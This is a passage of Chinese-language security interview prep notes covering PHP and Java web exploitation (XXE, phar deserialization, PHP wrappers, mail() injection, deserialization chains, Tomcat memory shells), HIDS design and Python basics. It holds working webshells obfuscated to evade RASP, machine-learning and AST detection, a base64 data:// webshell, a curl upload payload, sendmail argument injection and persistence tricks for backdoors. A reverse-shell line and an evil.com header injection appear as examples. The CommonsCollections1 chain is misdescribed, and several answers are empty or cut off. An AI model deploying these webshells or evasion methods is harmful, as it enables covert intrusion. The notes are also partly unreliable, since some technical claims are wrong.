> 当存在 LFI 且无法上传文件时，可以尝试通过写入服务器已有文件如访问日志、错误日志或 PHP 会话文件，将恶意代码写入其中，再通过 LFI 进行包含执行。
> 还可利用 PHP 输入流`php://input` 发送恶意代码并包含执

## ✓简述一下XXE漏洞产生的原理，针对PHP和JAVA，XXE分别可以进行哪些恶意利用?(★★)

### 1️⃣ XXE漏洞产生原理

- XXE（XML External Entity Injection）漏洞是由于XML解析器在处理外部实体时未禁用或未正确配置，导致攻击者通过构造恶意XML数据，引用外部实体。
- 解析器在解析时会加载并执行外部实体内容，攻击者可借此读取服务器本地文件、进行SSRF、执行拒绝服务攻击等。

***

### 2️⃣ PHP环境下XXE的恶意利用

- **读取本地文件** &#x20;

  利用外部实体引用本地敏感文件（如`/etc/passwd`）。
- **服务器端请求伪造（SSRF）** &#x20;

  通过实体引用内网或外网地址，探测内网服务。
- **拒绝服务攻击** &#x20;

  利用递归实体或大文件实体导致资源耗尽。
- **盲注信息泄露** &#x20;

  结合延时或错误信息推断服务器信息。

***

### 3️⃣ Java环境下XXE的恶意利用

- **文件读取** &#x20;

  读取服务器敏感文件。
- **SSRF攻击** &#x20;

  访问内网或其他服务。
- **远程代码执行（RCE）** &#x20;

  某些特定Java XML解析器（如老版本的`XStream`、`Spring Framework`）可通过构造特殊实体链触发RCE。
- **拒绝服务** &#x20;

  递归实体导致解析耗尽资源。

***

### ✅ 面试答题模板

> XXE漏洞源于XML解析器未正确禁用外部实体，攻击者构造恶意XML利用外部实体加载本地文件或网络资源。 &#x20;
> 在PHP中，常见利用包括读取本地文件、SSRF、拒绝服务和信息泄露。 &#x20;
> Java环境除了上述利用，还可能因特定解析器存在的反序列化漏洞导致远程代码执行。 &#x20;
>
> 预防需禁用外部实体加载并使用安全的XML解析配置。

## ✓PHP中如何使用`phar://`伪协议触发反序列化，利用场景以及前提条件有哪些?(★★)

### phar://伪协议反序列化原理

- PHP 的 Phar（PHP Archive）文件格式支持将文件打包成归档，其中可携带元数据（metadata）。
- 在某些函数处理 Phar 文件时（如`file_exists()`,`is_file()`,`include`,`fopen`），会自动触发 Phar 文件的元数据反序列化。
- 如果攻击者能控制或上传恶意 Phar 文件，利用反序列化漏洞的魔术方法（如`__wakeup()`,`__destruct()`）可执行恶意代码。

***

### 2️⃣ 利用方式

- 构造带有恶意对象的 Phar 文件，并将恶意payload写入元数据区。
- 通过漏洞点使用`phar://` 协议打开该文件，例如：

  `include 'phar://path/to/malicious.phar';`
- PHP 自动反序列化 Phar 元数据，触发对象魔术方法执行恶意代码。

***

### 3️⃣ 利用场景

- **LFI 漏洞结合 Phar 文件** &#x20;

  通过 LFI 访问恶意 Phar 文件触发反序列化。
- **文件上传漏洞** &#x20;

  上传恶意 Phar 文件后，通过其他功能访问触发。
- **文件操作函数被滥用** &#x20;

  代码使用`file_exists()`,`is_file()` 等函数且传入攻击者控制路径。

***

### 4️⃣ 前提条件

- 应用或环境允许上传或访问恶意 Phar 文件。
- 代码中存在使用文件操作函数加载文件的功能（`include`,`file_exists`等）并使用了`phar://` 或允许传入该协议路径。
- PHP 环境开启了 Phar 支持（默认开启）。
- 目标应用中存在可利用的反序列化 Gadget（魔术方法链）。

***

### ✅ 面试答题模板

> PHP 的 phar:// 伪协议利用基于 Phar 文件的元数据自动反序列化特性。攻击者构造携带恶意对象的 Phar 文件，借助 LFI 或文件操作函数加载该文件时触发反序列化执行。
> 利用场景主要是存在文件包含或上传漏洞的应用，且使用了`include`、`file_exists` 等函数。前提条件包括允许访问恶意 Phar 文件、开启 Phar 支持及存在可利用的反序列化魔术方法链。

***

## ✓如何绕过`php.ini`中`disable_function`的限制，有哪些方法，其中成功率最高的方法是哪个，为什么?(★★★)

### 常规绕过（黑名单绕过）

### 利用 pcntl\_exec

### 利用 LD\_PRELOAD 环境变量

### 利用 ImageMagick

### 利用 FFI 扩展执行命令

### 利用 SplDoublyLinkedList UAC

### Json Serializer UAF

### 利用 Backtrace UAF

### 利用 GC UAF

### 攻击 PHP-FPM

### 利用 Apache Mod CGI

### ShellShock（CVE-2014-6271）

## ✓文件上传中`%00`截断的原理是什么，官方是如何设计修复方案的?(★★)

### 1️⃣`%00` 截断原理是什么？

`%00`是 URL 编码的**空字节**（null byte，十六进制为`0x00`），其作用是在底层 C 语言中**标志字符串的终止**。

#### 🧩 问题根源：

- **PHP 底层是用 C 写的**。
- C 语言字符串是**以空字节（****`\x00`****）为结束标志**。
- 在 PHP5.x 早期版本中，如果上传文件名中出现`%00`，那么在处理文件名时，**PHP 会截断字符串，只识别前面的部分**。

#### ✅ 举例说明：

用户上传文件名为：

`file.php%00.jpg`

服务端校验逻辑可能是：

`if (substr($filename, -4) == '.jpg') {     move_uploaded_file($_FILES['file']['tmp_name'], '/upload/' . $filename); }`

- 逻辑层面判断文件名是`.jpg`，允许上传。
- 但底层调用`fopen()`、`move_uploaded_file()`时，C 语言读取`file.php%00.jpg`为`file.php`（因为`%00` 截断）。
- 结果：上传的内容实际保存为`.php` 文件，成功绕过后缀校验，上传 webshell。

***

### 2️⃣ 利用该原理的危害

- 绕过文件类型白名单检查。
- 上传`.php`或`.jsp` 等动态脚本文件。
- 配合文件包含等漏洞，实现 RCE。

***

### 3️⃣ 官方修复方案

PHP 官方从**PHP 5.3.4+和**5.2.17+ 开始进行了修复。

#### 修复方式：

- **内部统一字符处理逻辑**，对包含空字节的字符串直接视为非法。
- 所有文件相关函数（如`fopen()`,`file_exists()`,`move_uploaded_file()` 等）都不再允许使用包含空字节的路径名。
- 空字节在路径中出现将会直接触发错误，上传失败。

#### 示例：

`echo move_uploaded_file($_FILES['file']['tmp_name'], "1.php%00.jpg"); // PHP >= 5.3.4 会报错：Invalid argument supplied`

***

### ✅ 面试答题模板（推荐背诵）

> `%00`是空字节，在早期 PHP 版本中会导致字符串在底层被截断，攻击者可以构造如`1.php%00.jpg`的文件名绕过上传限制，从而实际写入`.php`文件，上传 webshell。
> 官方在 PHP 5.3.4 之后修复了该问题，禁止所有文件相关函数使用包含空字节的路径，彻底解决了`%00` 截断绕过的问题。

## ✓实现一个一句话webshell，绕过RASP的方式有哪些，绕过机器学习检测的方式有哪些，绕过AST-Tree的方式有哪些(★★)

***

### 🐘 一、PHP 一句话 WebShell及其绕过方式

### ✅ 经典一句话（明文）

`<?php eval($_POST['cmd']); ?>`

### 🔐 绕过方式

| 检测机制          | 绕过手法与原理（PHP）                                                                                                                    |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| **RASP**​     | \\- 使用\`assert()\`,\`include()\`等非典型命令执行方式 \\- 函数名拼接如\`(\$f='ev'.'al')(\$x) \`- 使用\`call\_user\_func()\`/\`create\_function()\` |
| **ML 检测**​    | \\- 插入业务代码或注释 \\- Base64 + 解码器（\`eval(base64\_decode(...))\`） \\- 使用分隔变量绕特征                                                     |
| **AST Tree**​ | \\- 替换\`eval\`为\`call\_user\_func()\`、\`include() \`- 利用匿名函数和动态变量（动态函数名调用） \\- 多层嵌套、转义分解                                        |

### ✅ 综合示例（PHP绕过三种检测）：

`<?php # 插入合法代码混淆特征 // login check passed $f = 'base' . '64_decode'; $code = $_POST['x']; $real = $f($code); call_user_func('assert', $real); ?>`

***

### ☕ 二、Java 一句话 WebShell及其绕过方式

### ✅ 经典一句话（明文）

jsp

复制编辑

`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`

#### 用于 JSP 环境下的命令执行，或配合反弹 shell 使用。

***

### 🔐 绕过方式

| 检测机制          | 绕过手法与原理（Java）                                                                                              |
| ------------- | ---------------------------------------------------------------------------------------------------------- |
| **RASP**​     | \\- 替换\`Runtime.getRuntime().exec()\`为\`ProcessBuilder \`- 使用\`Class.forName()\`反射调用 \\- 构造 Gadget 链执行任意代码 |
| **ML 检测**​    | \\- 添加 HTML 模板混淆特征 \&#x20; \\- 分离字符串与拼接命令 \&#x20; \\- 使用 URLClassLoader 加载 payload                         |
| **AST Tree**​ | \\- 反射绕过调用树：如\`Class.forName(...).getMethod(...).invoke(...) \`- 使用隐藏类加载器 \\- 写入临时类执行                      |

***

### ✅ 示例1：使用反射 + 字符串拼接

`<% String c = "Ru" + "ntime"; Class<?> cls = Class.forName("java.lang." + c); Object rt = cls.getMethod("getRuntime").invoke(null); cls.getMethod("exec", String.class).invoke(rt, request.getParameter("x")); %>`

- **绕过点**：
  - 反射调用不在传统的语法树命令路径中
  - 字符串拼接避开静态规则与 ML 检测

***

### ✅ 示例2：ProcessBuilder 替代 Runtime

`<% String cmd = request.getParameter("cmd"); new ProcessBuilder(cmd.split(" ")).start(); %>`

- **绕过点**：
  - 使用非`Runtime` 路径命令执行，绕过 RASP 默认 hook 点
  - 动态命令拼接规避字符串规则

***

### 📦 总结对比答题模板（面试通用）

> 在实现一句话 WebShell 并绕过检测时，PHP 和 Java 的策略略有不同：
>
> \-   **PHP 环境**中，主要是通过变种执行函数（如`assert`,`include`,`call_user_func`）、动态拼接函数名、Base64 编码等方式来绕过 RASP、机器学习检测和 AST 分析；
>
> \-   **Java 环境**中，可以通过`Class.forName()`、`ProcessBuilder`替代`Runtime.exec()`，使用字符串拼接或反射调用规避静态分析与 RASP；
>
> 两者的共同点在于尽量“打破”安全工具能识别的执行路径与语义模式，构造“合法外壳 + 恶意内核”的混合体，以提高绕过率。

## ✓PHP伪协议的攻击场景有哪些？(★★)

### 📌 一、什么是 PHP 伪协议？

PHP 提供了一组内置的“协议”，允许你像操作文件一样读取/写入/解析内容，比如从远程加载、内存中构造数据等。

***

### 🧨 常见攻击场景与伪协议列表

| 伪协议                                   | 场景描述             | 利用方式                     |
| ------------------------------------- | ---------------- | ------------------------ |
| \*\*`php://input`\*\*​                | 读取原始 HTTP 请求体    | 可用于文件上传绕过、RCE、代码注入       |
| \*\*`php://filter`\*\*​               | 对文件内容进行编码/解码     | 可用于源码泄露、文件内容读取（base64）   |
| \*\*`data://`\*\*​                    | 直接在 URI 中传递数据    | 可构造内联 payload，实现代码注入     |
| \*\*`phar://`\*\*​                    | 访问 Phar 文件格式（归档） | 可用于反序列化漏洞触发 gadget 链     |
| \*\*`file://`\*\*​                    | 访问本地文件系统         | 读取敏感信息（如配置文件）            |
| **`ftp://`** **/** \*\*`http://`\*\*​ | 远程文件加载           | 可触发 SSRF、远程包含等漏洞         |
| **`zip://`** **/** \*\*`rar://`\*\*​  | 访问压缩包文件内容        | 文件穿透、LFI 配合使用            |
| \*\*`expect://`\*\*​                  | 执行系统命令（依赖安装）     | 少见，类似\`system()\`，但一般被禁用 |

***

### 🎯 各伪协议攻击场景详解

***

### 1️⃣`php://input` - 代码注入 & WAF 绕过

- **利用点**：上传接口读取`php://input` 数据，可用于绕过上传限制，或注入恶意代码。
- **示例场景**：

`$file = fopen('php://input', 'r');`

- 结合 WebShell：

`curl -X POST -d "<?php eval(\$_POST[x]); ?>" http://target/upload.php`

***

### 2️⃣`php://filter` - 源码泄露

- **利用点**：LFI（本地文件包含）配合使用，读取文件内容而非执行。
- **典型利用**：

`http://target/index.php?page=php://filter/read=convert.base64-encode/resource=login.php`

可泄露源码，结合 base64 解码还原代码。

***

### 3️⃣`data://` - 内联注入 Payload

- **利用点**：上传/包含类函数存在，允许直接注入代码而非引用外部文件。

`include('data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2MnXSk7ID8+'); // <?php eval($_POST['c']); ?>`

- **适合**：函数接受路径作为参数时，可直接注入任意代码。

***

### 4️⃣`phar://` - 反序列化触发点

- **前提**：程序存在`unserialize()`且对文件路径操作时未过滤`phar://`
- **示例利用链**：

`$img = $_GET['file']; $image = imagecreatefromjpeg($img);`

攻击者传入：

`phar://evil.jpg`

构造`evil.jpg` 为带有反序列化对象的 Phar 文件，即可 RCE。

***

### 5️⃣`file://` - 文件读取

- 常见于包含类函数，如`include()`、`require()`、`file_get_contents()`。
- 示例：

`file_get_contents('file:///etc/passwd');`

***

### 6️⃣`zip://` - ZIP 压缩包中的文件穿透

- **利用点**：本地文件包含时传入压缩包路径访问内部文件。

`include("zip://archive.zip#payload.php");`

适合上传压缩包，绕过后缀名检测。

***

### 🔐 面试答题模板总结

> PHP 伪协议常用于 Web 漏洞的利用与绕过，主要包括：
>
> \-   `php://input` 用于上传绕过、代码注入；
> \-   `php://filter` 可实现源码泄露（base64）；
> \-   `data://` 可构造内联 Webshell；
> \-   `phar://` 是 PHP 反序列化链的触发点；
> \-   `file://`、`zip://` 则配合 LFI 等文件

## ✓`mail`函数的攻击面有哪些?(★)

### ✅ 一、mail() 函数简介

`mail(string $to, string $subject, string $message, string $headers = "", string $parameters = "")`

邮件实际是通过系统调用`sendmail`或`postfix` 实现的，参数拼接不当会形成注入点。

***

### 🎯 二、常见攻击面总结

| 类型                              | 风险描述                  | 利用方式                           |
| ------------------------------- | --------------------- | ------------------------------ |
| \*\*邮件头注入\*\*（Header Injection） | 可插入伪造头部，批量发送垃圾邮件、钓鱼邮件 | 利用\`\r\n\` 插入额外字段              |
| \*\*命令注入\*\*（Command Injection） | 参数传入 sendmail 命令，拼接漏洞 | 利用\`\$additional\_parameters\` |
| **信息泄露**​                       | 错误信息暴露路径、参数、邮件内容等     | SMTP 报错、日志泄露                   |
| **滥用资源**​                       | 无验证码限制可被用于发垃圾邮件       | 构造表单接口批量打邮箱                    |
| **CRLF 注入**​                    | 邮件头未过滤换行符，导致 SMTP 中断  | 插入\`\r\n\` 替换收件人、主题等           |

***

### 🚨 三、攻击案例详解

### 1️⃣ 邮件头注入（Header Injection）

`$to = $_GET['to']; // 用户输入邮箱 mail($to, "Subject", "Message", "From: admin@example.com");`

用户输入：

`victim@example.com%0ACc:attacker@example.com`

➡️ 结果：攻击者收到副本邮件，造成**敏感信息泄露**

***

### 2️⃣ 命令注入（通过第五个参数）

`mail($to, $subject, $msg, $headers, $_GET['extra']);`

若传入：

`extra=-X/path/to/malicious/script.sh`

或更极端的：

`extra=-oQ/tmp/ -X/tmp/shell.php`

➡️ 写入 WebShell 或执行任意命令（依赖于 MTA 后端）

***

### 3️⃣ 滥发邮件（垃圾邮件批量发送）

无验证码或频率限制：

`mail($_POST['email'], "Register Code", "Your code is 123456");`

➡️ 被用作 SMTP Relay，批量发钓鱼邮件，甚至被列入黑名单。

***

### 4️⃣ CRLF 注入（邮件格式中断）

攻击者通过`%0D%0A` 插入换行符，可中断邮件结构：

`victim@example.com%0D%0ABcc:spam@evil.com`

***

### 🛡️ 四、安全防护建议

- ✅ 严格校验`$to`和`$headers`参数，不允许换行符（`\r`,`\n`）
- ✅ 不允许用户控制`$parameters`（第五个参数）
- ✅ 使用`filter_var($to, FILTER_VALIDATE_EMAIL)` 校验邮箱
- ✅ 增加验证码、频率限制，避免接口被滥用
- ✅ 尽可能使用更安全的邮件库（如 PHPMailer、SwiftMailer）

***

### ✅ 面试总结模板

> `mail()` 函数的攻击面主要包括：
> 1\.  邮件头注入：通过 \r\n 插入伪造收件人、抄送；
> 2\.  命令注入：通过`$additional_parameters` 执行任意命令；
> 3\.  CRLF 注入：篡改邮件结构，造成信息泄露；
> 4\.  邮件滥发：接口缺乏限制，容易被批量调用；
> 应通过严格输入校验、参数过滤和替代库使用等方式防止此类风险。

## ✓如何不通过数字以及字符构造webshell，其原理是什么，此类特性还会造成什么安全问题?(★)

无数字字母rce

## ✓`ClassLoader`是什么? 加载自定义`ClassLoader`的前提是什么?&#x20;



## ✓大概讲一下`CommonCollections1`的利用链，该利用链有什么样的限制? (★★)

### ✅ 一、CommonsCollections1 利用链简介

### 📌 利用目的：

通过反序列化链最终触发任意代码执行（如`Runtime.getRuntime().exec()`）。

### 📌 依赖库：

Apache Commons Collections（版本 <= 3.2.1）

***

### ✅ 二、CommonsCollections1 调用链核心结构

scss

复制编辑

`PriorityQueue.readObject() └── Comparator.compare()     └── TransformerChain.transform()         └── ChainedTransformer             └── ConstantTransformer             └── InvokerTransformer                 └── Runtime.getRuntime().exec("command")`

***

### ✅ 三、执行逻辑简述：

1. **利用 Transformer 构造恶意执行链：**
   - `ChainedTransformer`：多个 Transformer 串联执行
   - `InvokerTransformer`：通过反射调用方法
   - `ConstantTransformer`：返回某个固定对象（比如`Runtime.class`）
2. **构造一个依赖于 Comparator 的容器类：**
   - 利用`PriorityQueue`或`TreeMap` 等需要比较器的容器
3. **在调用反序列化对象的**\*\*`readObject()`方法时自动触发排序逻辑\*\*​
   - 比较器中使用了`ChainedTransformer`
   - 导致触发 Transformer 链，执行命令

***

### ✅ 四、限制条件

| 限制                                          | 说明                       |
| ------------------------------------------- | ------------------------ |
| ✅\*\*目标环境必须引用 Commons-Collections 3.x\*\*   | 不然链不存在或结构不同              |
| ❌\*\*Java 8u72 及以下默认可利用\*\*                 | 高版本或开启安全策略后，可能抛出异常       |
| ❌\*\*需要可控的反序列化入口点\*\*                       | 如从网络、文件、HTTP 读取对象流       |
| ❌\*\*无法绕过黑名单检测\*\*（如\`InvokerTransformer\`） | 会被现代防护工具标记（EDR、WAF）      |
| ❌\*\*利用过程依赖反射\*\*                           | 被 RASP、Seccomp 等中间件拦截时失效 |

***

### ✅ 五、面试回答模板（精简版）

> CommonsCollections1 是 Java 反序列化中的经典利用链，依赖 Apache Commons Collections 3.x 版本。其核心通过`ChainedTransformer`搭配`InvokerTransformer`构造执行链，然后利用`PriorityQueue`的`readObject()`方法触发链执行，实现如`Runtime.getRuntime().exec("cmd")` 的任意命令执行。限制方面，它依赖特定版本的库，且需存在反序列化入口，且易被现代防护检测。

## ✓fastjson的反序列化和原生反序列化漏洞的区别是什么? (★★)

## ✓在tomcat中实现内存马有哪些方式，有办法实现重启之后依然不会消失的内存马吗? (★)

***

### ✅ 一、什么是内存马？

> 内存马是一种**注入在内存中的后门**，不依赖文件落地，通过动态注入字节码到 Web 容器（如 Tomcat）中的组件，在不中断服务的情况下实现远程控制、命令执行等操作，**重启后失效** 是内存马的普遍特性。

***

### 🧠 二、在 Tomcat 中实现内存马的常见方式

下面是几种常用注入点：

### 1️⃣**Servlet 注入（Classic）**

- 通过反射或注册 API 将恶意`Servlet`注入到`ServletContext` 中
- 可通过反序列化、Filter 注入等链条触发

`context.addServlet("evil", new EvilServlet()).addMapping("/shell");`

***

### 2️⃣**Filter 注入（最常见）**

- 注入恶意`Filter`到当前`WebAppContext`的`FilterChain` 中
- 利用反射或恶意组件调用`addFilter()`

`context.addFilter("evil", new EvilFilter()).addMappingForUrlPatterns(...);`

***

### 3️⃣**Listener 注入**

- 注入恶意`ServletContextListener` 实现自定义钩子逻辑
- 监听生命周期事件进行持久驻留

***

### 4️⃣**Valve 内存马（高权限+稳定性强）**

- Valve 是 Tomcat 的底层组件（类似中间件），属于`Engine -> Host -> Context` 的一部分
- 注入一个自定义`Valve` 实现逻辑，如命令执行、数据提取等

`class EvilValve extends ValveBase {     public void invoke(Request request, Response response) {         // 判断恶意请求特征并执行 payload     } }`

注入到某个`Engine`/`Host`上的`pipeline` 中。

***

### 5️⃣**MBean 注入内存马**

- 注册恶意`MBean`到`JMX` 中，可远程管理或监听
- 适用于使用 JMX 远程管理的场景（企业应用常见）

***

### 6️⃣**Agent Attach（需高权限）**

- 使用 Attach API 将 agent 注入正在运行的 Tomcat JVM 中
- 完全绕过 Web 层限制，适合持久控制

`java -jar evil-agent.jar <pid>`

***

### ❓ 三、有没有办法实现**重启后仍不消失**的“内存马”？

**传统内存马在服务重启后会被销毁**，但确实存在几种“持久化”或“变种驻留”方式：

***

### ✅ 方法 1：写入`Tomcat` 配置文件或 web.xml（伪内存马）

- 将恶意 Filter/Servlet 配置写入`web.xml`
- 或写入`$CATALINA_HOME/conf/server.xml`的`Valve` 配置
- 重启时仍会自动加载

**缺点**：虽然不是纯内存马了，但可以作为持久后门存在。

***

### ✅ 方法 2：**Class 文件落地 + Loader 注入**

- 将恶意类写入到已加载目录下（`WEB-INF/classes`），再注册为 Filter/Servlet
- 不改 web.xml，通过反射动态注册
- 类文件持久化后，内存马可以在类加载器初始化时生效

***

### ✅ 方法 3：**Agent 级注入 + Premain**

- 编写恶意 Java Agent，使用`-javaagent` 参数注入
- 修改`catalina.sh / .bat` 启动脚本，将 agent 注入参数写入其中
- 实现**JVM 启动时即加载后门**

`-javaagent:/path/to/evil-agent.jar`

**优点**：几乎无法通过 Web 层检测，持久生效
**缺点**：需写入磁盘和启动参数，权限要求高

***

### ✅ 方法 4：篡改 Tomcat 原始类（危险）

- 修改`catalina.jar`、`tomcat-coyote.jar`等包中的某个类（比如`StandardContext`、`Request`）
- 在初始化流程中加入恶意逻辑（如远程加载类、命令执行）

**重启也会执行**

***

### 🔐 安全建议

- 开启`SecurityManager`（已弃用）或基于模块隔离的权限控制
- 使用完整性校验防止`jar` 包篡改
- 部署层开启二进制白名单（如 SELinux）
- 定期扫描 ClassLoader 内部已加载类的结构（可检测异常类）

***

### ✅ 面试回答模板（推荐背诵）：

> 在 Tomcat 中实现内存马的方式包括通过 Filter、Servlet、Listener、Valve、MBean 等注入组件，或者通过 Attach API 注入恶意 agent。传统内存马在服务器重启后会消失，但可以通过篡改配置文件（如 web.xml、server.xml）、落地类文件、注入 Java Agent、修改核心类包等方式实现“伪内存马”或持久化驻留，实现重启后依然生效。Agent 方式在稳定性与持久性方面最强，但同时具备最高的权限要求。

## ✓单向代码执行链如何实现执行多条语句，如`CommonCollections1` (★)

### ✅ 一、什么是“单向代码执行链”？

- 指链条中只能调用一次目标函数（如`Runtime.getRuntime().exec()`），没有机会再次回调。
- 常见于 CommonsCollections1、Jdk7u21 等链中。
- 执行路径是“不可回头”的（比如`readObject()`→`transform()` → 一次命令执行后就终止）。

***

### ✅ 二、为什么不能写多个命令？

例如这段代码只能执行一条命令：

`Runtime.getRuntime().exec("whoami"); // 只能执行一次`

如果你写成：

`Runtime.getRuntime().exec("whoami; id; uname -a"); // 在 Windows 上无效`

则**可能不生效**，原因：

- 在**Windows 上**，`exec()`不支持多条命令连接（如`;`）。
- 在**Linux 上** 有时可以，但需要调用 shell 执行。

***

### ✅ 三、实现多条命令的解决方案

### ✅ 方式一：调用 shell 执行多条命令（推荐）

`String[] cmd = {"/bin/bash", "-c", "whoami; id; uname -a"}; Runtime.getRuntime().exec(cmd);`

- Linux 平台，调用 shell 来执行多个命令
- Windows 用`cmd.exe /c "command1 && command2"`：

`String[] cmd = {"cmd.exe", "/c", "whoami && ipconfig && netstat"}; Runtime.getRuntime().exec(cmd);`

🧠 可以把这个命令写进`InvokerTransformer` 的构造参数中即可。

***

### ✅ 方式二：提前写个脚本，一次执行

`echo -e "#!/bin/bash\nwhoami\nid\nuname -a" > /tmp/x.sh chmod +x /tmp/x.sh Runtime.getRuntime().exec("/tmp/x.sh");`

这种方式也可配合远程加载脚本，再通过执行器执行。

***

### ✅ 方式三：用`ProcessBuilder`

虽然不是 CommonsCollections1 默认链支持的，但你可以构造链调用：

`new ProcessBuilder("bash", "-c", "whoami; id; uname -a").start();`

但注意：要实现这个调用，需要定制 Gadget 链，CommonsCollections1 默认是调用`Runtime.getRuntime().exec()`，不支持`ProcessBuilder`。

***

### ✅ 四、面试回答模板

> CommonsCollections1 是典型的“单向代码执行链”，它通过`InvokerTransformer`只调用一次目标方法（如`Runtime.getRuntime().exec()`）。如果要实现执行多条语句，可以构造类似`"bash -c 'cmd1; cmd2; cmd3'"`的命令，将多个指令组合在一条命令行中，通过调用系统 shell 执行。另一种做法是写脚本或使用`ProcessBuilder` 执行多个命令。但要注意平台兼容性以及链条中能否正常调用这些构造。

## ✓请简单讲述一下Shiro反序列化漏洞的原理，无法使用ysoerial中common-collections利用链的原因是什么? (★)

shiro重写了反序列化的那个函数，不支持数组

## ✓冰蝎当中通过Java联动`Cobalt Strike`上线的原理是什么? (★)

jsp或者jar都可以直接加载shellcode

## ✓`serialVersionUID` 在反序列化中的作用是什么? (★)

`serialVersionUID`是 Java 序列化机制中的一个重要字段，它在反序列化过程中起着**版本校验** 的作用。

***

### ✅ serialVersionUID 在反序列化中的作用（★）

### 1. 什么是`serialVersionUID`？

- `serialVersionUID`是`Serializable`类的一个静态常量，类型为`long`。
- 用于标识类的版本号，通常定义如下：

`private static final long serialVersionUID = 1L;`

***

### 2. 反序列化时的作用

- 当 JVM 反序列化对象时，会检查流中保存的`serialVersionUID`与当前加载类的`serialVersionUID` 是否匹配。
- 如果不匹配，则会抛出`InvalidClassException`，提示类版本不一致。

***

### 3. 版本校验保证序列化兼容性

- 保证序列化对象与当前类定义兼容。
- 如果类结构发生了变化（添加字段、修改字段等），应更新`serialVersionUID`，防止反序列化出错或逻辑异常。

***

### 4. 没显式定义时的默认行为

- 如果类没有显式定义`serialVersionUID`，Java 会根据类的字段、方法等信息自动计算一个`serialVersionUID`。
- 但自动计算存在不稳定因素（编译器版本、细微代码变动都会影响计算结果），不利于版本兼容。

***

### ✅ 面试回答示范

> `serialVersionUID`是 Java 序列化机制中的版本控制标识，反序列化时 JVM 会比较流中的`serialVersionUID`与当前类的`serialVersionUID`，如果不一致，则抛出`InvalidClassException`。它用于保证序列化数据和类定义版本兼容，避免因类结构变更导致反序列化错误或安全隐患。

## ✓简要介绍自己常用的扫描器和其实现上的特点(★★)

## ✓如果让你设计一个HIDS，应该如何设计(★)

设计一个 HIDS（Host-based Intrusion Detection System，基于主机的入侵检测系统）是一个考察综合能力的面试题，涉及操作系统底层、日志分析、安全策略、性能优化等多个方面。

***

### ✅ 面试答题框架（简洁实用型）

***

### **一、总体架构思路**：

> 将 HIDS 分为五大核心模块，采用客户端-服务端模型，轻量部署、模块化设计，支持主动防御与被动检测。

#### 1.**数据采集模块**

- 实时监听主机的关键安全事件，例如：
  - 文件系统变更（inotify / eBPF）
  - 系统调用（auditd、Sysmon、eBPF）
  - 登录认证（SSH、RDP、su/sudo）
  - 网络连接（netstat / socket API hook）
  - 进程行为（ps / proc / 守护进程监控）
  - 应用日志（Web/DB/Nginx）

#### 2.**日志分析与检测引擎**

- 基于规则 + 行为分析（支持自定义规则）：
  - 正则匹配、YARA规则、行为模型（如新用户添加 + root 提权）
  - 可引入机器学习模块（如异常用户行为检测）
  - 支持静态和动态分析，检测 Webshell、反弹 shell 等行为

#### 3.**响应处置模块**

- 检测后自动执行响应策略，如：
  - 阻断 IP / kill 进程
  - 隔离主机 / 关闭端口 / 发出告警
  - 调用防火墙（iptables、Windows Defender API）联动

#### 4.**通信与管理模块**

- 客户端与服务端通信方式：
  - 支持 TLS 安全传输
  - 支持心跳机制与断点续传
  - 可与 ELK/Splunk/Graylog/SIEM 对接

#### 5.**配置与策略模块**

- 策略集中管理，下发白名单 / 黑名单规则
- 支持主机分组、自定义检测策略
- 日志过滤、事件聚合、告警等级分类

***

### **二、跨平台支持**

| 平台      | 采集技术                       |
| ------- | -------------------------- |
| Linux   | Auditd、eBPF、inotify、procfs |
| Windows | Sysmon、ETW、WMI             |
| MacOS   | DTrace、FSEvents            |

***

### **三、安全性设计**

- **通信安全**：TLS/SSL 加密通道，防止流量被劫持
- **完整性校验**：客户端程序签名校验、防篡改保护
- **抗绕过能力**：内核态监控、与杀软/EDR 联动
- **日志防删除**：支持远程转发 + 本地只读缓存

***

### **四、常见检测规则示例**

| 类型         | 规则示例                                  |
| ---------- | ------------------------------------- |
| Webshell检测 | 非正常进程访问 Web 目录，运行 php.exe             |
| 权限提升       | 普通用户运行\`chmod +s\`、\`sudo su\` 等命令    |
| 异常登录行为     | SSH 爆破、白天未登录但深夜登录                     |
| 反弹Shell    | bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1 |

***

### ✅ 五、总结句式（答题收尾）：

> 我会从数据采集、行为分析、响应联动、安全传输、策略配置五大模块设计一套轻量、实时、可扩展的 HIDS 系统，具备较强的检测能力和灵活的联动策略，同时兼顾性能与安全，适用于企业主机的安全监测与应急响应。

## ✓介绍一下Python中的迭代器、生成器、装饰器(★)

### 1. 迭代器（Iterator）

- **定义**：实现了`__iter__()`和`__next__()` 方法的对象。
- **作用**：可以用来遍历数据（支持`for` 循环）。
- **特点**：
  - 调用`iter(obj)` 返回迭代器对象。
  - 通过`next()`获取下一个元素，遇到末尾会抛出`StopIteration`。
- **示例**：

`lst = [1, 2, 3] it = iter(lst) print(next(it))  # 输出1 print(next(it))  # 输出2`

***

### 2. 生成器（Generator）

- **定义**：一种特殊的迭代器，用函数定义，使用`yield` 语句生成值。
- **作用**：节省内存，惰性计算，适合生成大数据序列。
- **特点**：
  - 函数执行到`yield` 暂停，返回一个值，下次从暂停处继续。
  - 生成器本身也是迭代器。
- **示例**：

python

复制编辑

`def gen():     yield 1     yield 2     yield 3 g = gen() print(next(g))  # 1 print(next(g))  # 2`

***

### 3. 装饰器（Decorator）

- **定义**：本质上是一个高阶函数，用来**包装函数或类**，增强功能而不修改原函数代码。
- **作用**：常用于权限校验、日志记录、缓存、性能统计等。
- **实现**：
  - 接收一个函数作为参数，返回一个新的函数。
  - 语法糖是`@decorator`。
- **示例**：

`def deco(func):     def wrapper():         print("Before")         func()         print("After")     return wrapper @deco def say():     print("Hello") say() # 输出： # Before # Hello # After`

***

### 简要总结

- **迭代器**是遍历协议的实现者；
- **生成器**是用`yield` 轻松创建迭代器的语法糖；
- **装饰器**是函数增强的设计模式，常用于横切关注点的抽象。

## ✓介绍自己常用的python库(★)

## ✓讲一讲celery的特点以及原理(★)

### ✅ Celery 的特点

- **异步任务处理**：支持将耗时任务异步执行，避免阻塞主程序。
- **分布式**：支持多 worker 分布式运行，任务可以分散到多台机器。
- **支持多种消息中间件**：如 RabbitMQ、Redis、Amazon SQS 等。
- **任务调度**：支持定时任务（结合 Celery Beat）。
- **结果存储**：支持多种后端保存任务结果，如 Redis、数据库。
- **灵活扩展**：可动态添加/移除 worker，支持任务重试、任务链、任务分组。

***

### ✅ Celery 的工作原理

1. **客户端（Producer）**
